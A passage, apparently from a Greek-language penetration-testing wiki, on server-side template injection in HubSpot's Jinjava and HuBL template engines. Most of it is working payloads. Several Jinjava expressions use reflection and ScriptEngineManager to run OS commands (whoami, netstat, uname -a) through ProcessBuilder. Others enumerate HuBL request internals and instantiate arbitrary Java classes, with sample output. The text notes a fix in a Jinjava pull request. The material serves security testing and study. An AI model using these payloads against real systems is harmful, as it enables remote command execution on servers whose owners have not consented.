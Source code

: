 ```java
.forName('java.lang.String')
.constructors[0]
.newInstance(([bytes]).toArray()) }}
```
### Jinjava (Java)
```java
{{'a'.toUpperCase()}} would result in 'A'
{{ request }} would return a request object like com.[...].context.TemplateContextRequest@23548206
```
Jinjava είναι ένα έργο ανοιχτού κώδικα που αναπτύχθηκε από την Hubspot, διαθέσιμο στο [https://github.com/HubSpot/jinjava/](https://github.com/HubSpot/jinjava/)

**Jinjava - Εκτέλεση εντολών**

Διορθώθηκε από [https://github.com/HubSpot/jinjava/pull/230](https://github.com/HubSpot/jinjava/pull/230)
```java
{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"new java.lang.String('xxx')\")}}

{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"var x=new java.lang.ProcessBuilder; x.command(\\\"whoami\\\"); x.start()\")}}

{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"var x=new java.lang.ProcessBuilder; x.command(\\\"netstat\\\"); org.apache.commons.io.IOUtils.toString(x.start().getInputStream())\")}}

{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"var x=new java.lang.ProcessBuilder; x.command(\\\"uname\\\",\\\"-a\\\"); org.apache.commons.io.IOUtils.toString(x.start().getInputStream())\")}}
```
**Περισσότερες πληροφορίες**

- [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#jinjava](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#jinjava)

### Hubspot - HuBL (Java)

- `{% %}` δηλωτές δηλώσεων
- `{{ }}` δηλωτές εκφράσεων
- `{# #}` δηλωτές σχολίων
- `{{ request }}` - com.hubspot.content.hubl.context.TemplateContextRequest@23548206
- `{{'a'.toUpperCase()}}` - "A"
- `{{'a'.concat('b')}}` - "ab"
- `{{'a'.getClass()}}` - java.lang.String
- `{{request.getClass()}}` - class com.hubspot.content.hubl.context.TemplateContextRequest
- `{{request.getClass().getDeclaredMethods()[0]}}` - public boolean com.hubspot.content.hubl.context.TemplateContextRequest.isDebug()

Αναζητήστε το "com.hubspot.content.hubl.context.TemplateContextRequest" και ανακαλύψτε το [Jinjava project on Github](https://github.com/HubSpot/jinjava/).
```java
{{request.isDebug()}}
//output: False

//Using string 'a' to get an instance of class sun.misc.Launcher
{{'a'.getClass().forName('sun.misc.Launcher').newInstance()}}
//output: sun.misc.Launcher@715537d4

//It is also possible to get a new object of the Jinjava class
{{'a'.getClass().forName('com.hubspot.jinjava.JinjavaConfig').newInstance()}}
//output: com.hubspot.jinjava.JinjavaConfig@78a56797

//It was also possible to call methods on the created object by combining the
```